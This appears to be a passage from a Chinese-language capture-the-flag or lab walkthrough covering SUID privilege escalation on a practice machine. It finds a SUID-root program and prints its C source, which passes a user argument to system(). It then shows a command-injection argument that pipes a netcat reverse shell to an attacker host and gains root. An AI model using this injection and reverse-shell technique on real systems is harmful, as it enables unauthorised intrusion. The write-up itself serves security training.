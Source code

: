 

## 7. suid提权

查看suid的二进制文件

```
find / -perm -u=s -type f 2>/dev/null 
```

结果是没有常见的提权的可执行程序的，但是有一个文件值得注意

```
/home/scanner/update_cloudav
```

于是我们看一下scanner目录

```
ls -l /home/scanner/
```

结果如下

```
drwxrwxr-x 4 scanner scanner 4096 Oct 24  2018 cloudav_app
-rwsr-xr-x 1 root    scanner 8576 Oct 24  2018 update_cloudav
-rw-rw-r-- 1 scanner scanner  393 Oct 24  2018 update_cloudav.c
```

发现update_cloudav的源码，审计一下

```c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```

该程序调用了freshclam，并且可以指定一个参数，那么我们将参数设置为反弹shell的命令或许可以成功

执行如下命令，执行前kali再监听两个端口

```
/home/scanner/update_cloudav "a|nc 192.168.0.10 6666 | /bin/bash | nc 192.168.0.10 7777"
```

收到shell

```
uid=0(root) gid=0(root) groups=0(root),1001(scanner)
```

至此打靶结束
